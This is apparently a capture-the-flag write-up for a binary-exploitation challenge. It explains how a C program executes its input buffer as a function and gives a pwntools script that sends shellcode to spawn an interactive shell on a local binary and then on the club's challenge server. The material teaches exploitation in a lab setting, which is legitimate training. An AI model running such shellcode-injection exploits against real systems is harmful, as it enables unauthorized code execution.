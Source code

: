 # Reconnaissance
## C Review
The c indicates two buffers being set up. `buf0` is not used anywhere, but `input` is cast to a pointer which is called as a function later in `main()`! This will be our attack vector. We can write shell code into `input` and it will be executed later.  

Small note: Because the `printf()` call doesn't include a new line character, we can't use `recvline()` for our program. We'll neeed to use `recvuntil()` and wait for the end of the expected string.

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_6")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13377)
	return r
```
Here we are doing a couple of things. We are importing the `pwn` library to use as our primary tool for both working on the local file and the challenge server. Then, we use `pwn`'s `ELF` module to put the executable into a variable `EXE`. Then we set up a few things for `pwn`, most importantly `context.log_level = "DEBUG"` because this will give us verbose information about what we send and recieve with `pwn`.

The `conn()` function being set up here simply allows us to minimally change the program to run remotely when we are finished with testing. Calling this function with `True` as a parameter connects to the local installation of the server executable, whose path is written in the definition of the `EXE` variable. Then once our testing is completed, we can call `conn(False)` to make a connection to the remote server.

Next, we connect and craft and send our payload:
```{python}
io = conn(True)
# Wait for the process to send "Ever been to the Dreese Lab basement?" and respond to move on
io.recvuntil(b'"Ever been to the Dreese Lab basement?"')
io.send(b'no, i haven\'t\n')

# Create a payload with shellcode to spawn us a shell
payload = asm(shellcraft.sh())
payload += b'\n'
io.send(payload)
io.interactive()

io.close()
```

If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!